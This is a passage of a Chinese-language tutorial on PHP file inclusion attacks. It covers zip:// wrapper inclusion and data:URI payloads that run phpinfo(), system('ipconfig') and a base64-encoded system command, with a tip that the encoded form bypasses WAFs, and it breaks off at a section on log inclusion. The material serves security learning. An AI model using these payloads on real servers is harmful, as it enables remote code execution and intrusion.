 ###### 姿势

构造zip包的方法同上面的phar，这里可以修改后缀为：jpg、png等

但使用zip协议，需要指定绝对路径，同时将#编码为%23，之后填上压缩包内的文件

```php
1.php?file=zip://D:/PHPTutorial/WWW/wenjianbaohan/123.zip%23123.txt
```

##### 5. data:URI schema

###### 利用条件

```
1. php版本大于等于5.2
2. allow_url_fopen=On
3. allow_url_include=On
```

###### 姿势一：

```php
1.php?file=data:text/plain,<?php phpinfo()?>
```

![image-20200302182344036](C:\Users\shy\AppData\Roaming\Typora\typora-user-images\image-20200302182344036.png)

执行命令：

```php
1.php?file=data:text/plain,<?php system('ipconfig')?>
```

![image-20200302182432353](C:\Users\shy\AppData\Roaming\Typora\typora-user-images\image-20200302182432353.png)

###### 姿势二

```php
1.php?file=data:text/plain;base64,PD9waHAgc3lzdGVtKCd0eXBlIDEyMy50eHQnKTs/Pg==
```

PD9waHAgc3lzdGVtKCd0eXBlIDEyMy50eHQnKTs/Pg== 解码后为<?php system('type 123.txt');?>

查看源代码即可看到文件源码

![image-20200302185406071](C:\Users\shy\AppData\Roaming\Typora\typora-user-images\image-20200302185406071.png)

也可以直接执行系统命令

![image-20200302185510455](C:\Users\shy\AppData\Roaming\Typora\typora-user-images\image-20200302185510455.png)

![image-20200302185533385](C:\Users\shy\AppData\Roaming\Typora\typora-user-images\image-20200302185533385.png)

这种姿势可以在遇到waf时绕过

#### 二、包含日志

##### 1.访问日志
